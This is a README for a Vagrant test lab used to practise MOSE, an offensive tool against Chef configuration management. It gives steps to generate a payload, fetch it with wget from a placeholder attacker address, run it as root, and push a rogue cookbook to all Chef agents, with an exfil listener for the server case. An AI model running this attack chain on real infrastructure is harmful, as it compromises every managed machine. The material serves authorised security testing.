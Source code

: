 # chef-test-lab
Used to create a test lab that can be used to work with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment; it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)

## Vagrant Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
cd vagrant && make build && make run
```
### To run MOSE against the chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	7a. Escalate to root with ```sudo su``` <br>
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

### To run MOSE against the chef server:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090 -rhost chef-server:10.42.42.10` <br>
	2a. The exfil listener time can be set with the `-ep` parameter <br>
	2b. The `-rhost` parameter is a necessity if running against a chef-server.  
3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	9a. Escalate to root with ```sudo su``` <br>
	9b. Run ```chef-client```
10. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

To tear down the test environment, run the following command:
```
make destroy
```

